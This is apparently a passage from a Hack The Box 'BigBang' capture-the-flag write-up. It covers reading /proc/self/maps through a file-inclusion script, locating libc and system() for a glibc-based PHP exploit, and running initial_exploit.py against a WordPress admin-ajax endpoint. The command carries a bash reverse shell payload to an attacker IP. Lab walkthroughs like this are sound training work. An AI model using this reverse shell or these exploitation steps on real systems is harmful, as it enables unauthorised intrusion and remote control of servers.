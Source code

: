 ![Screenshot 2025-01-28 at 12.31.29 AM.png](/assets/Images/HTB_BigBang/Screenshot_2025-01-28_at_12.31.29_AM.png)

At this point, we need to modify the remote class in the script to help us extract the contents of `/proc/self/maps`. This file provides valuable information, such as the **`PHP heap** address` and the full path of the **libc** file.

Once we have this information, the next step is to remove the **GIF magic byte** from the file, as we no longer need it for the exploit. Afterward, we can extract the memory address of the **system()** function, which is critical for gaining control of the system.

To help with this, we use the **LFI.py** script again, which allows us to determine that we specifically need the **/usr/lib/x86_64-linux-gnu/libc.so.6** file. Once identified, we install this **libc** file on our local machine, and we’ll then update the **ELF path** to point to where we’ve installed it. This step is necessary for the exploit to work properly, as it ensures we're referencing the correct version of the **libc** file during the attack.

Must Read this 🔥 :

[文章 - 【翻译】从设置字符集到RCE：利用 GLIBC 攻击 PHP 引擎（篇一）  - 先知社区](https://xz.aliyun.com/news/14127)

[Full Explanation ](https://www.notion.so/Full-Explanation-18a73e8e218180399400c32242d15b0f?pvs=21)

The Code and the libc.so.6 which you need to run this exploit 

```bash
python3 initial_exploit.py 'http://blog.bigbang.htb/wp-admin/admin-ajax.php' 'bash -c"bash -i >& /dev/tcp/10.10.14.xxx/2004 0>&1"'
```
